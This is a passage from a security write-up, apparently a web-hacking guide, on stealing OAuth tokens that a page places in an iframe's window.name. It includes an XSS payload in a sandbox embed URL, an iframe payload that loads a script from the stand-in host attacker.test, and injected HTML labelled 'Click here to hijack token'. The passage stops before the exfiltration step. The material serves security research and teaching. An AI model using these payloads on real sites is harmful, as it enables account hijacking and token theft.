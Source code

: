 ## **Gadget 2: example 1, stealing window.name from a sandbox iframe**

This one had an **iframe** loaded on the **page where the OAuth-dance ended**. The **name** of the **iframe** was a **JSON-stringified version of the `window.location` object**. This is an old way of transferring data cross-domain, since the page in the iframe can get its own `window.name` set by the parent:

```javascript
i = document.createElement('iframe');
i.name = JSON.stringify(window.location)
i.srcdoc = '<script>console.log("my name is: " + window.name)</script>';
document.body.appendChild(i)
```

![](https://www.baidu.com/favicon.ico) [comment]: <> (![]&#40;https://labs.detectify.com/wp-content/uploads/2022/06/gadget2-example2.png)

The domain loaded in the **iframe also had a simple XSS**:

```
https://examplesandbox.com/embed_iframe?src=javascript:alert(1)
```

### Attack

If you have an **XSS** on a **domain** in one window, this window can then **reach other windows of the same origin** if there’s a parent/child/opener-**relationship between the windows**.

This means that an attacker could **exploit the XSS to load a new tab** with the crafted **OAuth link** that will **end** in the **path** that **loads** the **iframe with the token in the name**. Then, from the **XSS** exploited page it will be possible to **read the name of the iframe** because it has an **opener over the iframes parent page** and exfiltrate it.

More specificly:

1.  Created a malicious page that’s embedding an iframe of the sandbox with the XSS loading my own script:

    ```html
    <div id="leak"><iframe src="https://examplesandbox.com/embed_iframe?src=javascript:
    x=createElement('script'),
    x.src='//attacker.test/inject.js',
    document.body.appendChild(x);" 
    style="border:0;width:500px;height:500px"></iframe></div>
    ```
2.  In my script being loaded in the sandbox, I replaced the content with the link to use for the victim:

    ```javascript
    document.body.innerHTML = 
    '<a href="#" onclick="
    b=window.open("https://accounts.google.com/o/oauth2/auth/oauthchooseaccount?...");">
    Click here to hijack token</a>';
    ```
